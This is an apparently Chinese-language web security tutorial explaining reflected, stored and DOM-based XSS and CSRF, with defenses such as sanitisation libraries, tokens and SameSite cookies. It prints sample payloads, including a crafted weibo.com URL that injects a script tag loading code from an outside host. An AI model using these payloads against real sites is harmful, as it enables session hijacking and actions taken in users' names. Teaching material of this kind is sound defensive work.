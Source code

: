 # XSS和CSRF

<ClientOnly>
  <MTA/>
</ClientOnly>


## XSS
### 简介
跨站脚本攻击，英文全称是Cross Site Script，本来缩写是CSS，但是为了和层叠样式表
(CascadingStyleSheet,CSS）有所区别，所以在安全领域叫做“XSS”。
XSS攻击，通常指黑客通过“HTML注入”篡改了网页，插入了恶意的脚本，从而在用户
测览网页时，控制用户浏览器的一种攻击。在一开始，这种攻击的演示案例是跨域的，所以叫
做“跨站脚本”。但是发展到今天，由于Javascript的强大功能以及网站前端应用的复杂化，是
否跨域己经不再重要。但是由于历史原因，XSS这个名字却一直保留下来。

### XSS漏洞产生的原因
XSS漏洞通常产生在前端js代码的漏洞。所以会和前端环境（如浏览器内核版本）有关。

### 分类与示例
#### 反射型XSS
反射型XSSS只是简单地把用户输入的数据“反射”给浏览器。也就是说，黑客往往需要
诱使用户“点击”一个恶意链接，才能攻击成功。反射型XSS也叫做“非持久型XSS”(Non-persistent XSS)。
攻击者发现 http://weibo.com/pub/star/g/xyyyd 这个 URL 的内容未经过滤直接输出到 HTML 中。
于是攻击者构建出一个 URL，然后诱导用户去点击：
```html
http://weibo.com/pub/star/g/xyyyd"><script src=//xxxx.cn/image/t.js></script>
```

用户点击这个 URL 时，服务端取出请求 URL，拼接到 HTML 响应中：
```html
<li><a href="http://weibo.com/pub/star/g/xyyyd"><script src=//xxxx.cn/image/t.js></script>">按分类检索</a></li>
```
浏览器解析html就会执行这段script代码。如果这段script代码包含一个模拟当前用户的操作，比如发帖子，关注之类的代码。这样就完成了一次xss攻击。
#### 存储型XSS
存储型XSS会把用户输入的数据“存储”在服务器端。这种XSS具有很强的稳定性。
1. 攻击者在一个表单输入描述的input输入了一串js代码如下：
```js
<script>alert(1)</script>
```
提交保存后，该代码存到了服务器。当有管理员会查看用户提交的内容时。
页面会加载该数据。本来页面加载输入的描述是文字。正常加载看起来是这样的
```html
<html>
  <body>
    <div>
      <span>描述：</span>
      <p>这是一段描述</p>
    </div>
  </body>
</html>
```
但是由于输入的是script所以就变成了
```html
<html>
  <body>
    <div>
      <span>描述：</span>
      <p><script>alert(1)</script></p>
    </div>
  </body>
</html>
```
浏览器就会执行这段script代码。如果这段script代码包含一个获取当前页面信息的脚本，并发送给了黑客的服务器，黑客就拿到了比如cookie登录。这样就完成了一次xss攻击。

存储型XSS会持续攻击，因为存储在服务端，只要有人查看有那段js的代码的页面。就会一直发起攻击。
#### DOM型XSS
这种类型的XSS并非按照“数据是否保存在服务器端”来划分，DOM型
从效果上来说也是反射型XSS。单独划分出来，是因为DOM型的形成原因比较特别，
发现它的安全专家专门提出了这种类型的XSS。出于历史原因，也就把它单独作为一个分类了。
本质也是js脚本的实现，但是这个的情况是，比如我有一个输入框input，用来填充输入的url然后构建一个跳转的a标签。如下代码所示。
```html
<input id="text">
<div id="aa"></div>

<script>
  let input = document.getElementById("text").value;
  document.getElementById("aa").innerHTML = `<a herf="${input}">点我</html>`
</script>
```
这时候。我不输入url了。我输入：
```html
javascript:void 0;" onclick="(function(){alert(233)})()
```
让innerHTML的结果为：
```js
document.getElementById("aa").innerHTML = `<a herf="javascript:void 0;" onclick="(function foo(){alert(233)})()">1aaa</a>`
```
这样用户点击就可以执行onclick里的函数，又是一次XSS攻击了。

## 防御XSS
web前端的话，可以下载[xss 的npm包](https://github.com/leizongmin/js-xss)
> npm install xss

主要要处理好input、富文本输入、输出的检查。上面仅仅是XSS攻击的一种实现。但是原理是类似的。


## CSRF

CSRF（Cross-site request forgery）跨站请求伪造：攻击者诱导受害者进入第三方网站，在第三方网站中，向被攻击网站发送跨站请求。利用受害者在被攻击网站已经获取的注册凭证，绕过后台的用户验证，达到冒充用户对被攻击的网站执行某项操作的目的(如修改操作、删除操作等)。主要就是cookie的锅,不过目前新版浏览器大多已经关闭第三方Cookie了。

### 特征
一个典型的CSRF攻击有着如下的流程：
1. 用户C打开浏览器，访问受信任网站A，输入用户名和密码请求登录网站A；       
2. 在用户信息通过验证后，网站A产生Cookie信息并返回给浏览器，此时用户登录网站A成功，可以正常发送请求到网站A；       
3. 用户未退出网站A之前，在同一浏览器中，打开一个TAB页访问网站B；       
4. 网站B接收到用户请求后，返回一些攻击性代码，并发出一个请求要求访问第三方站点A；       
5. 浏览器在接收到这些攻击性代码后，根据网站B的请求，在用户不知情的情况下携带Cookie信息，向网站A发出请求。网站A并不知道该请求其实是由B发起的，所以会根据用户C的Cookie信息以C的权限处理该请求，导致来自网站B的恶意代码被执行。

CSRF的两个特点：
- CSRF（通常）发生在第三方域名。
- CSRF攻击者不能获取到Cookie等信息，只是使用。
该图是一个银行转账的csrf攻击图
![image](../assets/csrf.png)

理解CSRF攻击最主要的核心在于，cookie的发送这个知识点。意思浏览器新打开的tab页面B发起对页面A域名地址的请求。浏览器会把A页面得到的cookie，加在这个请求上(这个请求其实和A页面的请求代码一样的请求地址，只不过代码写在B页面上)。对于服务器来讲cookie是身份识别，都是一样的所以会允许通过。但是http的头Referer字段会显示来源是B的地址。
### CSRF 防御


- 可以用验证码的方式，很好的抑制CSRF攻击。但是并不是万能的。出于用户体验考虑。网站不能给所有操作都加上验证。
- 还可以设置随机token。
- 重要操作要求输入原始密码，或者发送手机验证。
- 设置cookie SameSite也可以避免一些问题
- 验证Referer头
## 参考
- 《白帽子讲web安全》
- [前端安全系列（一）：如何防止XSS攻击？](https://juejin.cn/post/6844903685122703367)
- [前端安全系列之二：如何防止CSRF攻击？](https://juejin.cn/post/6844903689702866952)
- [xss的npm官网](https://jsxss.com/zh/index.html)